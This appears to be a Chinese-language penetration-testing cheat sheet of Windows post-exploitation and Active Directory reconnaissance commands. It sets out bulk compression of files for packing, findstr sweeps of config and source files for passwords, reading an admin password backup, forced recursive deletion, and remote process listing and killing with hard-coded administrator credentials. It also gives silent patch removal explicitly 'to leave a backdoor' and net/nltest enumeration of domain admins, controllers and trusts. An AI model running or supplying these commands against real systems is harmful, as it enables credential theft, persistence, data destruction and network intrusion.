 批量压缩指定文件,注意,list.txt里存放的是所有要打包文件的绝对路径:

```text
# makecab /f list.txt /d compressiontype=lzx /d compressionmemory=21 /d maxdisksize=1024000000 /d diskdirectorytemplate=dd* /d cabinetnametemplate=dd*.cab
```

在指定目录下搜集各种账号密码

```text
# findstr /si pass *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si userpwd *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si pwd *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si login *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si user *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
```

查看,删除 指定文件:

```text
# type ad\admin_pass.bak        查看某个文件内容
# del d:\ad\*.* /a /s /q /f         强制删除指定路径下的所有文件
# tree /F /A D:\ >> file_list.txt   导出指定路径下的文件目录结构
```

查看当前机器的进程信息:

```text
# tasklist /svc     显示当前机器所有的进程所对应的服务[只限于当前用户又权限看到的进程]
# tasklist /m       显示本地所有进程所调用的dll[同样只限于当前用户又权限看到的进程]
# tasklist /S 192.168.3.122 /v /U administrator /P "admin!@#123"         查看远程指定机器的进程列表
# tasklist /S 192.168.3.122 /v /U KLIONSEC\administrator /P "admin!@#123"    域内可以直接用机器名来代替
​
# taskkill /im calc.exe 用指定进程名的方式结束指定进程
# taskkill /S 192.168.3.122 /pid 3440 /U KLIONSEC\administrator /P "admin!@#123" 结束远程机器上的指定进程
​
# wusa /uninstall /KB:2999226 /quiet /norestart     不重启卸载指定系统补丁,方便留后门,前提是权限要够
# driverquery       查看当前机器安装的驱动列表
# restart /r /t 0   立即重启当前机器
```

0x03 域内net及dsquery套件使用

利用常规net套件搜集域内信息

```text
# net user /domain      查看当前域中的所有用户名,根据用户名总数大概判断域的规模
# net user epoadmin /domain     查看指定用户在当前域中的详细属性信息
# net view          正常情况下可以用该命令查看当前域中在线的机器有哪些,但这样看着确实不太直观,稍微用批处理搞一下把机器名对应的ip也显示出来,岂不更畅快
# net accounts /domain      查看当前域的域内账户密码设置策略
# net config workstation        看看当前的登录域
# net view /domain          查看所有的域名称
# net view /domain:PROGRAM  查看指定域中在线的计算机列表
# net time /domain      查看主域位置,一般都会把主域作为时间服务器
# net group /domain     查看当前域中的所有组名
# net group "domain admins" /domain      看看当前域中的域管都有谁
# net group "domain computers" /domain   看看当前域中的所有的计算机名,只要登录过该域计算机名都会被保存下来,并非当前在线机器
# net group "domain controllers" /domain 看看域控是哪几个
# nltest /domain_trusts          查看域内信任关系
```
